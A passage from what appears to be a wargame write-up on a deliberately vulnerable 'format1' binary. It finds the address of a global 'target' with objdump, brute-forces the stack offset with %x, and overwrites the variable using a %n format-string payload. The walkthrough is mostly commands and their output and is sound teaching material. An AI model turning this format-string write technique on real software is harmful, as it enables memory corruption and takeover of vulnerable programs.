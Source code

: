 As **target** is outside the scope of a function, it will be located in the *.bss* of the binary. We can find it easily using the following command :

```shell
$ objdump -t ./format1 | grep target
080ebaa0 g     O .bss	00000004 target
```

Now, we have to find at which offset our argument (in fact, our inout) will be in the stack, we can *bruteforce* that easily :

```shell
$ ./format1 AAAA%x.%x.%x.%x.%x.%x%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x

AAAAbffff5e0.1.80489b8.2.8048190.bffff5088048a1e.bffff6fb.49656e69.0.8048a06.80ea110.bffff520.0.8048c5e.80ea0bc.49656e69.0.8048c5e.2.bffff5d4.bffff5e0.bffff544.0.2.bffff5d4.80489f0.0.8048190.80ea0bc.49656e69.0.65a8ab54.935aa23b.0.0.0.0.0.0.756e6547.1.8048ff4.8049580.8049620.0.bffff5cc.6.3c.3.30.0.2.0.8048880.80489f0.2.bffff5d4.8049580.8049620.0.bffff5cc.0.2.bffff6f1.bffff6fb.0.bffff8a1.bffffe5d.bffffe91.bffffea2bffffeb5.bffffebf.bffffed3.bffffee3.bfffff05.bfffff18.bfffff2c.bfffff40.bfffff50.bfffff58.bfffff6a.bfffff77.bfffff96.bfffffd4.bfffffe6.0.20.b7ffecf0.21.b7ffe000.10.fabfbff.6.1000.11.64.3.8048034.4.20.5.5.7.0.8.0.9.804885f.b.3e8.c.3e8.d.3e8.e.3e8.17.0.19.bffff6db.1f.bffffff2.f.bffff6eb.0.0.0.0.df000000.75be3dcc.ba15cd21.c9285987.69096277.363836.662f2e00.616d726f.41003174.25414141.78252e78
```

Well, it seems to be between argument 141 and 142 :

```shell
$ ./format1 AAAA%141\$p
AAAA0x41410031
$ ./format1 AAAA%142\$p
AAAA0x31254141
```

That's not really a problem, we just need to add some chars...

```shell
$ ./format1 AAAABB%141\$p
AAAABB0x41414141
```

Now, we have to replace the A's with the address of *target*.

```shell
$ ./format1 `python -c 'print "\xa0\xba\x0e\x08BB%141\$n"'`
?BByou have modified the target :)
```

Ok, that was an easy one !


### Precision Write

This exercise is similar to the first one, but this time we have to write **64** into *target*

